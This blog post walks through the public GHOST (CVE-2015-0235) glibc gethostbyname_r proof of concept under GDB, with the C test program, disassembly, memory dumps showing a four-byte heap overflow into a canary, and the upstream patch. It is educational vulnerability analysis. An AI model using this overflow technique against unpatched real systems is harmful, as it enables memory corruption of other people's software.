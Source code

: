 ```yaml
---
layout: post
title: CVE-2015-0235 GHOST PoC Explained
category: Exploitation, PoC
tags: Exploitation GHOST gethostbyname CVE-2015-0235
---
```


In this post we will go over the GHOST PoC under a debugger. This will visually show how the buffer overflow condition is met.

# PoC C Code
{% highlight C linenos %}
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CANARY "in_the_coal_mine"

struct {
	char buffer[1024];
	char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };

int main(void) {
	struct hostent resbuf;
        struct hostent *result;
	int herrno;
	int retval;

	/*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
	size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
	char name[sizeof(temp.buffer)];
	memset(name, '0', len);
	name[len] = '\0';

	retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);

	if (strcmp(temp.canary, CANARY) != 0) {
		puts("vulnerable");
		exit(EXIT_SUCCESS);
	}
	if (retval == ERANGE) {
		puts("not vulnerable");
		exit(EXIT_SUCCESS);
	}
	puts("should not happen");
	exit(EXIT_FAILURE);
}
{% endhighlight %}

Let me explain some of the above code.
First we define a CANARY, "in_the_coal_mine". This is our overwrite target.
Next we define a struct, which consists of two chunks. These chunks represent the HEAP chunks allocated by glibc gethostbyname_r function.
First chunk is named "buffer" and it's size is 1024 bytes, which is the initial chunk size allocated by gethostbyname_r call to malloc.
Following the "buffer" chunk is the CANARY chunk. By overflowing the "buffer" chunk into the CANARY chunk, we can confirm the PoC exploit works.
Now that we have defined our struct representing the heap chunks, the name char array is being initialized with 999 bytes of ASCII '0' / HEX 0x30.  
Here are more details about the gethostbyname_r arguments:  

>**name**  
>*The name of the Internet host whose entry you want to find.*  
>**result**  
>*A pointer to a struct hostent where the function can store the host entry.*  
>**buffer**  
>*A pointer to a buffer that the function can use during the operation to store host database entries; buffer should be large enough to hold all of the data associated with the host entry. A 2K buffer is usually more than enough; a 256-byte buffer is safe in most cases.*  
>**buflen**  
>*The length of the area pointed to by buffer.*  
>**h_errnop**  
>*A pointer to a location where the function can store an herrno value if an error occurs.*  

Now, let's see the binary under GDB debugger.

{% highlight bash linenos %}
$ gdb -q ./GHOST 
Reading symbols from /home/student/GHOST...done.
(gdb) break main
Breakpoint 1 at 0x80484a2: file ghost.c, line 14.
(gdb) set disassembly-flavor intel
(gdb) run
Starting program: /home/student/GHOST 

Breakpoint 1, main () at ghost.c:14
14int main(void) {
(gdb) disas
Dump of assembler code for function main:
   0x08048494 <+0>:push   ebp
   0x08048495 <+1>:mov    ebp,esp
   0x08048497 <+3>:push   edi
   0x08048498 <+4>:push   esi
   0x08048499 <+5>:and    esp,0xfffffff0
   0x0804849c <+8>:sub    esp,0x450
=> 0x080484a2 <+14>:mov    eax,gs:0x14
   0x080484a8 <+20>:mov    DWORD PTR [esp+0x44c],eax
   0x080484af <+27>:xor    eax,eax
   0x080484b1 <+29>:mov    DWORD PTR [esp+0x44],0x3e7
   0x080484b9 <+37>:mov    eax,DWORD PTR [esp+0x44]
   0x080484bd <+41>:mov    DWORD PTR [esp+0x8],eax
   0x080484c1 <+45>:mov    DWORD PTR [esp+0x4],0x30
   0x080484c9 <+53>:lea    eax,[esp+0x4c]
   0x080484cd <+57>:mov    DWORD PTR [esp],eax
   0x080484d0 <+60>:call   0x80483c0 <memset@plt>
   0x080484d5 <+65>:lea    eax,[esp+0x4c]
   0x080484d9 <+69>:add    eax,DWORD PTR [esp+0x44]
   0x080484dd <+73>:mov    BYTE PTR [eax],0x0
   0x080484e0 <+76>:lea    eax,[esp+0x4c]
   0x080484e4 <+80>:lea    edx,[esp+0x40]
   0x080484e8 <+84>:mov    DWORD PTR [esp+0x14],edx
   0x080484ec <+88>:lea    edx,[esp+0x3c]
   0x080484f0 <+92>:mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:lea    edx,[esp+0x28]
   0x08048508 <+116>:mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:mov    DWORD PTR [esp],eax
   0x0804850f <+123>:call   0x80483d0 <gethostbyname_r@plt>
   0x08048514 <+128>:mov    DWORD PTR [esp+0x48],eax
   0x08048518 <+132>:mov    edx,0x804a440
   0x0804851d <+137>:mov    eax,0x8048660
   0x08048522 <+142>:mov    ecx,0x11
   0x08048527 <+147>:mov    esi,edx
   0x08048529 <+149>:mov    edi,eax
   0x0804852b <+151>:repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb)
{% endhighlight %}
Lines 24-28, are where memset initializes name char array with 999 bytes of '0'. Line 31, name char array is being null terminated. Lines 36-41, is where the arguments for gethostbyname_r are being pushed to the stack, right to left. After the gethostbyname_r function, on lines 44-49 is where strcmp confirms if the CANARY has been modified or not.  
Let's set a breakpoint before the gethostbyname function and inspect the temp stuct.
{% highlight bash linenos %}
(gdb) break *main+123
Breakpoint 3 at 0x804850f: file ghost.c, line 25.
(gdb) c
Continuing.

Breakpoint 3, 0x0804850f in main () at ghost.c:25
25	  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
(gdb) disas
...
   0x080484f0 <+92>:	mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:	mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:	mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:	lea    edx,[esp+0x28]
   0x08048508 <+116>:	mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:	mov    DWORD PTR [esp],eax
=> 0x0804850f <+123>:	call   0x80483d0 <gethostbyname_r@plt>
...
(gdb) print temp
$4 = {buffer = "buffer", '\000' <repeats 1017 times>, canary = "in_the_coal_mine"}
(gdb) 

(gdb) x/1024s 0x804a040
0x804a040 <temp>:	 "buffer"
0x804a047 <temp+7>:	 ""
0x804a048 <temp+8>:	 ""
...
...
...
0x804a43d <temp+1021>:	 ""
0x804a43e <temp+1022>:	 ""
0x804a43f <temp+1023>:	 ""
0x804a440 <temp+1024>:	 "in_the_coal_mine"
{% endhighlight %}

As you can see, the content of temp is of two buffers named "buffer" and "canary". Content of Buffer is the name of the buffer "buffer" which is 6 bytes + 1017 bytes of '0' characters + null terminating byte = 1024 bytes. CANARY starts at memory location 0x804a440 or 1024 bytes within the temp struct, and it's content is as initialized "in_the_coal_mine".  
Now let's move 1 instruction down, past the gethostbyname_r function and inspect the temp struct again.
{% highlight bash linenos %}
(gdb) nexti
0x08048514	25	  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
(gdb) disas
Dump of assembler code for function main:
...
   0x080484f0 <+92>:	mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:	mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:	mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:	lea    edx,[esp+0x28]
   0x08048508 <+116>:	mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:	mov    DWORD PTR [esp],eax
   0x0804850f <+123>:	call   0x80483d0 <gethostbyname_r@plt>
=> 0x08048514 <+128>:	mov    DWORD PTR [esp+0x48],eax
...
(gdb) print temp
$5 = {buffer = '\000' <repeats 16 times>, "@\240\004\b\000\000\000\000\000\000\000\000", '0' <repeats 996 times>, canary = "000\000he_coal_mine"}
(gdb) 
(gdb) x/1024s 0x804a040
0x804a040 <temp>:	 ""
0x804a041 <temp+1>:	 ""
...
...
0x804a05c <temp+28>:	 '0' <repeats 200 times>...
0x804a124 <temp+228>:	 '0' <repeats 200 times>...
0x804a1ec <temp+428>:	 '0' <repeats 200 times>...
0x804a2b4 <temp+628>:	 '0' <repeats 200 times>...
0x804a37c <temp+828>:	 '0' <repeats 199 times>
0x804a444 <temp+1028>:	 "he_coal_mine"
{% endhighlight %}
What this shows us is that now, the temp.buffer is 1028 bytes. 4 bytes from temp.buffer chunk has overflowed into the temp.canary chunk. If we inspect the 0x804a440 address, which use to be the start of the CANARY chunk, we should see the overflowed bytes followed by terminating null char.

{% highlight bash linenos %}
(gdb) x/s 0x804a440
0x804a440 <temp+1024>:	 "000"
(gdb) 
{% endhighlight %}

## The patch
As noted by Qualys in their report, the vulnerable code in the function is in nss/digits_dots.c. The patch mainly consists of adding 4 bytes to the size_needed object.

{% highlight bash linenos %}
vi nss/digits_dots.c

From this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

To this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);
{% endhighlight %}

This adds the 4 missed bytes that cause the overflow from the first chunk to the next chunk. Now if we add this to the calculation of the "size_t len" from the above PoC code, instead of 999 bytes the name char array buffer will be 995 and the overflow will not work.

### Reference
* [Qualys report](https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.220525848.141431497.1428700623)
* [Stackoverflow](http://stackoverflow.com/questions/28258135/manually-patching-for-ghost-vulnerability-on-legacy-server)

